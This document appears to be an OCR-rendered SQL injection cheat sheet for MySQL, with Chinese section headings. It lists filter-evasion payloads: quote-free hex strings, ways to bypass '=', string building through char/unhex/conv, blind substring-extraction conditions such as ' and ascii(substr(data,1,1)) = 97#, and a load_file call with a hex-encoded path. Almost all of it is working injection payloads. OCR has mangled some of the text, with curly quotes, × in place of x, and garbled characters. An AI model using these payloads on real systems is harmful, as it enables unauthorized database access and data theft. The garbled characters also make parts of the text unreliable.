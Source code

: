 ```
SELECT _binary’1100001′
SELECT x’61′

#没有引号的字符串
　‘abc’ = 0×616263
　　' and substr(data,1,1) = 'a'#　　' and substr(data,1,1) = 0x61	# 0x6162　　' and substr(data,1,1) = unhex(61)	# unhex(6162)　　' and substr(data,1,1) = char(97	)# char(97,98)　　' and substr(data,1,1) = 'a'#　　' and hex(substr(data,1,1)) = 61#　　' and ascii(substr(data,1,1)) = 97#　　' and ord(substr(data,1,1)) = 97# 　　' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
#别名
select pass as alias from users
select pass`alias alias`from users

#字型
‘ or true = ’1 # or 1=1
‘ or round(pi(),1)+true+true = version() # or 3.1+1+1 = 5.1
‘ or ’1 # or true
#操作符字型
select * from users where ‘a’='b’='c’
select * from users where (‘a’='b’)=’c’
select * from users where (false)=’c’

#认真绕过‘=’
select * from users where name = ”=”
select * from users where false = ”
select * from users where 0 = 0
select * from users where true#函数过滤器ascii (97)
load_file/*foo*/(0×616263)

#用函数构建字符串
‘abc’ = unhex(616263)
‘abc’ = char(97,98,99)
 hex(‘a’) = 61
 ascii(‘a’) = 97
 ord(‘a’) = 97
‘ABC’ = concat(conv(10,10,36),conv(11,10,36),conv(12,10,36))

#特殊字符

　　aes_encrypt(1,12) // 4鏷眥"^z譎é蒃a　　des_encrypt(1,2) 						// 侴Ò/镏k　　@@ft_boolean_syntax 					// + -><()~*:""&|　　@@date_format 						// %Y-%m-%d　　@@innodb_log_group_home_dir 		// .\
@@new: 0
@@log_bin: 1
#提取子字符串substr(‘abc’,1,1) = ‘a’
substr(‘abc’ from 1 for 1) = ‘a’
substring(‘abc’,1,1) = ‘a’
substring(‘abc’ from 1 for 1) = ‘a’
mid(‘abc’,1,1) = ‘a’
mid(‘abc’ from 1 for 1) = ‘a’
lpad(‘abc’,1,space(1)) = ‘a’
rpad(‘abc’,1,space(1)) = ‘a’
left(‘abc’,1) = ‘a’
reverse(right(reverse(‘abc’),1)) = ‘a’
insert(insert(‘abc’,1,0,space(0)),2,222,space(0)) = ‘a’
space(0) = trim(version()from(version()))

#搜索子字符串
locate(‘a’,'abc’)
position(‘a’,'abc’)
position(‘a’ IN ‘abc’)
instr(‘abc’,'a’)
substring_index(‘ab’,'b’,1)
```